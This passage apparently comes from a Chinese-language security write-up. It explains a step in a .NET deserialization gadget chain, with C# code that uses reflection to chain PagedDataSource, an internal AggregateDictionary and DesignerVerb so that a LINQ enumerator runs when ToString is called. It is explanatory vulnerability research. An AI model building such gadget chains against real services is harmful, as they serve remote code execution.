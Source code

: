 ```plain
// PagedDataSource maps an arbitrary IEnumerable to an ICollection
PagedDataSource pds = new PagedDataSource() { DataSource = e3 };
// AggregateDictionary maps an arbitrary ICollection to an IDictionary 
// Class is internal so need to use reflection.
IDictionary dict = (IDictionary)Activator.CreateInstance(typeof(int).Assembly.GetType("System.Runtime.Remoting.Channels.AggregateDictionary"), pds);

// DesignerVerb queries a value from an IDictionary when its ToString is called. This results in the linq enumerator being walked.
DesignerVerb verb = new DesignerVerb("XYZ", null);
// Need to insert IDictionary using reflection.
typeof(MenuCommand).GetField("properties", BindingFlags.NonPublic | BindingFlags.Instance).SetValue(verb, dict);
```

第一步，使用`PagedDataSource`类将`IEnumerable`类型转换为`ICollection`类型，该类实现`ICollection`，dataSource 类型是`IEnumerable`

[![](assets/1701606703-63203072225bde16c1772e65a78c0f8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108202601-faa962a4-7e31-1.png)
